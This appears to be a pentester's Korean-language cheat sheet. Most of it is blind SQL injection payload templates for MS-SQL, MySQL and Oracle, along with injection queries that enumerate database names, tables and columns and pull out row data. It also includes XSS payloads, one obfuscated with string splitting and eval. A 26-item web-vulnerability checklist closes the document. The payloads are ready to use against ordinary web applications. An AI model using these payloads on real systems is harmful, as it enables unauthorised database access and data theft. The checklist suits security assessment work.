 # [MS-SQL]  

## Blind Shape  
``` sql
OO' and substring((query), 1, 1) < 'a'--  
```  

## Info
* get DB NAME  
``` sql
db_name()  
```  
* Get Table name  
``` sql
select top 1 name from sysobjects where xtype='U'  
```  
* Get Column name  
``` sql
select top 1 column_name from information_schema.columns where table_name = '[Table Name]'  
```  
* Get Data  
``` sql
select top 1 [Column Name] from [Table Name]  
```  
  
# [MySQL]  
## Blind Shape  
``` sql
???' and ascii(substr((query), 1, 1)) > 'a'#  
```  

## Info
* Get Table Name
``` sql
select table_name from information_schema.tables where table_type='base table' limit 0,1  
                                                                                     ㄴ> 0번 째 테이블  
```  
  
# [Oracle]   

## Blind Shape  
``` sql
and (ascii(SUBSTR(query),1,1))) > 1--  
```  

## Info
* Get DB name   
``` sql
select DISTINCT owner FROM all_tables;  
```  
* Get Table name   
``` sql
select table_name from all_tables;  
```  
* Get Column name   
``` sql
select column_name from all_tab_columns where table_name='[table name]';
```  
-----------------------------------------------------------------------------------
Row 갯수 파악

Limit 기능
``` sql
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3  
```
-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF  
`<img src="#" onmouseover="alert(1);">`  
`<img src="#" onerror="alert(1);">`  
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`  
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
